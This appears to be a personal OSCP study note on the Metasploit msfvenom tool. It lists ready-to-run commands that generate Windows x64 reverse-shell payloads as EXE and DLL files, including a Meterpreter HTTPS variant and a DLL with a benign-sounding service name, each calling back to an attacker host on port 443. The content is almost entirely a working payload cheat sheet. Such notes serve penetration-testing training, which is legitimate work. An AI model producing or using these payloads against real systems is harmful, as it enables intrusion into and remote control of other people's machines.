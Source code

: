 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/l-metasploit-framework/3-msf-venom/","updated":"2024-01-05T11:36:31.522+01:00"}
---
```


---------
Search for payload:
```
msfvenom -l payloads --platform windows --arch x64
```

Non-staged 64-bit Windows Reverse TCP Payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Non-staged 64-bit Windows Reverse HTTPS Payload:
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.199 LPORT=443 -f exe -o met.exe
```

64-bit DLL Payload:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll
```

